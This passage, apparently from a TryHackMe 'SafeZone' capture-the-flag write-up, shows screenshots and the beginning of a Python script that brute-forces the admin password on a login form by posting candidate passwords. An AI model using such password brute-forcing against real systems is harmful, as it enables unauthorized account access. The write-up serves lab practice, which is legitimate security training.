 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230010947.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230011000.png)

**Let's write a python script to brute force admin's password!**
```py
#!/usr/bin/env python3
import requests
from threading import Thread
from time import sleep

def sendRequest(url, password):
    loginData = {
        'username': 'admin',
        'password': password,
        'submit': 'Submit'
    } 

    loginRequest = requests.post(url, data=loginData)

    # \r to clean previous line
    print(f'[*] Trying password: {password}', end='\r')

```